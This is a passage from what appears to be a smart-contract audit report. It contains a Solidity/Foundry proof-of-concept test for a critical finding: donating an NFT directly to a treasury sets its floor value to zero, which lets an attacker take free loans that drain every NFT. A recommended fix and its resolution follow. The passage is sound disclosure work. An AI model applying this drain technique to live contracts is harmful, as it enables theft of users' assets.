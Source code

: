 **Proof of Concept:**

The full PoC for this finding can be found at [\textit{this link}](https://gist.github.com/gogotheauditor/6e479d9b51cc02e7e1a3080b6279a1b6).

\pagebreak

```solidity
function test_Proof_of_Concept_C1() external {
    _helperMintNTLC(address(this), 99);
    _helperMintNTLC(attacker, 1);

    // 1. Redeem all NFTs except 1 (or whatever amount the malicious user holds).
    for (uint256 i; i < 99; i++) {
        collection.approve(address(treasury), i);
        treasury.redeemItem(i);
    }
    assertEq(treasury.float(), 100 - 99);
    assertEq(collection.balanceOf(address(treasury)), 99);

    // 2. Test that redeem does not accept last item.
    vm.startPrank(attacker);
    collection.approve(address(treasury), 99);

    vm.expectRevert(Treasury.CanNotRedeemLastItem.selector);
    treasury.redeemItem(99);

    // 3. Transfer the NFT directly to the collection (the so-called "donation").
    collection.transferFrom(attacker, address(treasury), 99);
    assertEq(treasury.float(), 0);
    assertEq(collection.balanceOf(address(treasury)), 100);

    // 4. Abuse that the `realFloorValue()` is now 0 by taking free item loans.
    assertEq(treasury.realFloorValue(), 0);

    weth.approve(address(treasury), 0);
    for (uint256 i; i < 100; i++) {
        treasury.loanItem(i, 1_000_000 * 365 days);
    }

    // All NFTs are drained and treasury is DoS-ed forever.
    assertEq(treasury.float(), 0);
    assertEq(collection.balanceOf(attacker), 100);
}
```

**Recommendation:** Track the NFTs balance of the treasury internally instead of retrieving it dynamically via `collection.balanceOf`.

**Resolution:** Resolved. The clients introduced the `itemsTreasuryOwns` variable which tracks the NFT balance internally:

```solidity
function float() public view returns (uint256 float_) {
    uint256 totalSupply_ = collection.totalSupply();
    uint256 treasuryOwns_ = itemsTreasuryOwns;

    float_ = totalSupply_ - treasuryOwns_;
}
```
